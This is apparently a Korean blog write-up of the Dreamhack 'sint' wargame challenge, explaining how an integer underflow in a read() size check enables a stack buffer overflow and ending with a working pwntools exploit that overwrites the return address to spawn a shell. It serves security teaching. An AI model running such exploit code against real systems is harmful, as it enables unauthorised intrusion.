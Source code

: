 ```yaml
---
layout: post
title: [Dreamhack] sint
subtitle: Dreamhack-Pwnable sint
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/197375925-9c65298b-94ea-4c93-a528-a1a9be80abe9.jpg" width = 500>
</p>

이 문제는 **Integer Issues**라 하는 Reference를 가지고 있고 보호기법으로 보면 NX bit만 활성화 되어 있는 것을 알 수 있다. 

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();
    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

이 코드에서는 `get_shell`을 통한 `system` 호출이 가능하다.

```C
if (size > 256 || size < 0)
{
   printf("Buffer Overflow!\n");
   exit(0);
}
```

`size`라는 변수를 int형으로 입력 받아 256보다 크거나 0보다 작으면 프로그램이 종료된다.

```C
printf("Data: ");
read(0, buf, size - 1);
```

우리가 입력받은 size보다 1만큼 작게 Data를 입력받아 `buf[256]`에 저장하는 것을 알 수 있다.

`size`변수는 int형으로 맨 앞 자리는 부호를 설정하는 값이다. 즉 -2^31 ~ 2^31-1의 범위를 가지게 된다. 

`size`가 0이고 -1을 하게 되면 컴퓨터는 2의 보수를 취해 값을 변경하게 된다.

따라서, `size - 1`를 2진수로 표현하면 **1111 1111 1111 1111**, 엄청 큰 값을 가지게 된다.

* **read 함수**

```C
#include <unistd.h>

ssize_t read(int fd, void *buf, size_t nbytes);
```

입력받는 크기에 해당 형은 `size_t`로 unsigned int로 부호없는 정수형이다. 즉, 2의 보수처럼 맨 앞 자리가 부호를 뜻하지 않게 된다는 것이다.

그래서 `size - 1`의 2진수의 값을 매우 큰 값으로 받아드려 BOF가 가능하게 된다.

`system`을 불러오는 `get_shell`함수도 존재하므로, 전체 크기 **0x104** + **SFP 4byte** + **get_shell 주소**로 payload를 전송하면 해결이 가능하다.

```python
from pwn import *

# p = process('./sint')
p = remote('host3.dreamhack.games', port)
elf = ELF('./sint')

get_shell = elf.symbols['get_shell']
payload = b''

p.recvuntil('Size: ')
p.sendline('0')

payload += b'A' * 0x108 + p32(get_shell)
p.recvuntil('Data: ')
p.send(payload)

p.interactive()
```